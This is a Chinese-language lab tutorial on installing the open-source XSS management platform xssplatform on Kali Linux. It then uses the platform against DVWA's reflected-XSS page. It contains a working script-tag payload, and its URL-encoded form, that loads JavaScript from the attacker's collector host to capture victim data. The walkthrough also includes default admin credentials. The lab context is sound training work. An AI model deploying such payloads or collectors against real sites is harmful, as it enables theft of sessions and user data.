 一个经典的XSS渗透管理平台

## 1.  install

安装依赖

```
┌──(root㉿Kali-24)-[~]
└─# apt -y install lsb-release apt-transport-https ca-certificates
```

下载 PHP 软件包的数字签名

```
┌──(root㉿Kali-24)-[~]
└─# wget -O /etc/apt/trusted.gpg.d/php.gpg https://packages.sury.org/php/apt.gpg
```

添加 php 源

```
┌──(root㉿Kali-24)-[~]
└─# echo "deb https://packages.sury.org/php/ buster main" >/etc/apt/sources.list.d/php.list
```

获取更新列表

```
┌──(root㉿Kali-24)-[~]
└─# apt update
```

下载 libffi6_3.2.1-9_amd64.deb

```
┌──(root㉿Kali-24)-[~]
└─# wget http://ftp.us.debian.org/debian/pool/main/libf/libffi/libffi6_3.2.1-9_amd64.deb
```

> http://ftp.us.debian.org/debian/pool/main/libf/libffi/

安装 libffi6

```
┌──(root㉿Kali-24)-[~]
└─# dpkg -i libffi6_3.2.1-9_amd64.deb
```

安装 php7.4

```
┌──(root㉿Kali-24)-[~]
└─# apt install -y php7.4-fpm php7.4-mysql
```

使 php7.4 开机自启

```
┌──(root㉿Kali-24)-[~]
└─# systemctl enable --now php7.4-fpm.service
```

上传 nginx 配置文件 xuegodxss，移动站点启用目录中

```
┌──(root㉿Kali-24)-[~]
└─# mv xuegodxss /etc/nginx/sites-enabled/
```

修改配置文件 xuegodxss

```
┌──(root㉿Kali-24)-[~]
└─# sed -i 's/server_name xuegodxss\.cn;/server_name 192.168.1.24;/g' /etc/nginx/sites-enabled/xuegodxss
```

启动 nginx 服务

```
┌──(root㉿Kali-24)-[~]
└─# systemctl enable --now nginx.service
```

下载 XSSPlatform

```
┌──(root㉿Kali-24)-[~]
└─# git clone https://github.com/78778443/xssplatform.git
```

> 使用代理记得移除

移动 XSS 平台到站点根目录

```
┌──(root㉿Kali-24)-[~]
└─# mv xssplatform /var/www/html/xssplatform
```

修改文件权限

```
┌──(root㉿Kali-24)-[~]
└─# chown www-data:www-data -R /var/www/html
```

kali 浏览器访问

> http://192.168.1.24/

配置数据库连接信息和管理员账户

| 配置       | 信息        |
| ---------- | ----------- |
| 数据库地址 | 127.0.0.1   |
| 数据库用户 | root        |
| 数据库密码 | mysql       |
| 数据库     | xssplatfrom |
| 管理员     | admin       |
| 管理员密码 | admin       |

## 2. use

启动 Nginx

```
┌──(root㉿Kali-24)-[~]
└─# systemctl start nginx.service
```

登录

>http://192.168.1.24/
>
>管理员  	admin
>管理员密码	admin

查看代码

![查看代码](./../../../../../images/xssplatform/%E6%9F%A5%E7%9C%8B%E4%BB%A3%E7%A0%81.png)

> XSS 平台提供一个 js 代码，只需要通过 XSS 加载 js 代码即可使用，和 beef-xss 非常像

选择代码

![选择代码](./../../../../../images/xssplatform/%E9%80%89%E6%8B%A9%E4%BB%A3%E7%A0%81.png)

```
<script src=http://192.168.1.24/Q7yYOv?1687665509></script>
```

登录 DVWA

> http://192.168.1.76/DVWA/

> admin
>
> password

进入 `XSS (Reflected)`

提交代码

查看地址栏

```
http://192.168.1.76/DVWA/vulnerabilities/xss_r/?name=%3Cscript+src%3Dhttp%3A%2F%2F192.168.1.24%2FQ7yYOv%3F1687665509%3E%3C%2Fscript%3E#
```

在 XSS 平台查看接受的内容

![在 XSS 平台查看接受的内容](./../../../../../images/xssplatform/%E5%9C%A8%20XSS%20%E5%B9%B3%E5%8F%B0%E6%9F%A5%E7%9C%8B%E6%8E%A5%E5%8F%97%E7%9A%84%E5%86%85%E5%AE%B9.png)

---

Refrences

- [xssplatform](https://github.com/78778443/xssplatform)